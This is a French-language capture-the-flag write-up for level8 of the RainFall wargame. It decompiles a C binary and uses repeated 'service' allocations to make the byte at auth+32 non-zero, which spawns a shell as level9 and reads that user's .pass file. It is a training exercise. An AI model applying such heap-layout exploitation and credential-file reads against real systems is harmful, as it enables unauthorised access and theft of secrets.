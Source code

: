 **Exploit**:

**Commande**:  
```bash
auth ; service; service; login
```

**Explication**:  
Le programme en question est une application en C qui utilise des pointeurs auth et service, initialement mis à NULL. Lors de son exécution, le programme affiche continuellement les adresses actuelles pointées par auth et service. Il comporte plusieurs commandes critiques permettant de manipuler ces adresses :
    auth <arg>: Alloue 4 octets pour auth et copie la chaîne fournie en argument à cette adresse.
    reset: Libère la mémoire allouée à auth.
    service <arg>: Alloue une chaîne pour service en dupliquant la chaîne fournie.
    login: Exécute /bin/sh si le 33ème octet (index 32) de la mémoire allouée à auth est non nul; sinon, affiche un message demandant un mot de passe.

Lorsqu'on lance l'executable, on a : 
level8@RainFall:~$ ./level8 
(nil), (nil)

- En analysant l'exectuable avec ghidra et apres avoir simplifie le code, on peut voir :
    if (strncmp(buffer, "login", 5) == 0)
            {
                if (auth[32] != 0)
                    system("/bin/sh");
                else
                    fwrite("Password:\n", 10, 1, stdout);
    }
Si *auth + 32 est difference de 0, on peut obtenir notre shell
- On execute a nouveau et on peut voir que l'adresse de auth est de 0x804a008: 
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil)
- A chaque fois qu'on va ecrire service, on va allouer de la memoire pour service avec strdup :
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018
- On peut supposer que les adresse de auth et service se suivent, on a besoin que *auth + 32 ne soit pas vide
    32 = 0x20
    0x804a008 + 0x20 = 0x804a028
- On execute a nouveau service :
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018 
    service 
    0x804a008, 0x804a028
- On obtient notre shell : 
    level8@RainFall:~$ ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018 
    service 
    0x804a008, 0x804a028 
    login
    $ whoami
    level9
    cat /home/user/level9/.pass